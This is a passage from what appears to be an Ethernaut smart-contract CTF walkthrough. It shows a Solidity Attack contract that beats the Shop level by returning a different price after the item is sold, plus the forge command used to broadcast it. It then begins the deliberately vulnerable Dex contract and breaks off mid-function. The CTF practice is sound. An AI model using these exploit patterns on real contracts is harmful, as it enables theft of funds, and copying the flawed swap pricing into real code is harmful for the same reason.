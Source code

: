 ```javascript
        vm.stopBroadcast();
    }
}

contract Attack{
    Shop public shop = Shop(0x45e7A13038eCA7cCfd53aC8C4F345A7bC2fCd2A2);

    function exploit() public {
        shop.buy();
    }
    function price() external view returns (uint){
        if(shop.isSold() == false){
            return 100;
        }
        return 1;
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/ShopSolve.s.sol:ShopSolve --rpc-url $RPC_URL --broadcast
```

# 22 Dex

`Dex.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts/contracts/access/Ownable.sol';

contract Dex is Ownable(address(0x00)) {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
```